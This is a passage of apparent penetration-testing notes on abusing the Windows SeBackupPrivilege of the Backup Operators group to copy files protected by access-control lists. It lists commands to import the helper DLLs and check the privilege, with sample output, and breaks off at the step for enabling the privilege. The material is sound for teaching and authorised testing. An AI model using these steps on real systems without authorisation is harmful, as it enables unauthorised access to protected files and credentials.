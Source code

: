 # Windows Built-in Groups

https://ss64.com/nt/syntax-security_groups.html

## Backup Operators

Check current group :

```
whoami /groups
```

The SeBackupPrivilege allows us to traverse any folder and list the folder contents. This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL).
But it is not possible to use the standard copy command.

--> need to programmatically copy the data, making sure to specify the FILE_FLAG_BACKUP_SEMANTICS flag
https://github.com/giuliano108/SeBackupPrivilege


### Copy a protected file

1) Import Librairies

```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

2) Verifying SeBackupPrivilege is Enabled

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

```
Get-SeBackupPrivilege

SeBackupPrivilege is disabled
```

3) Enabling SeBackupPrivilege
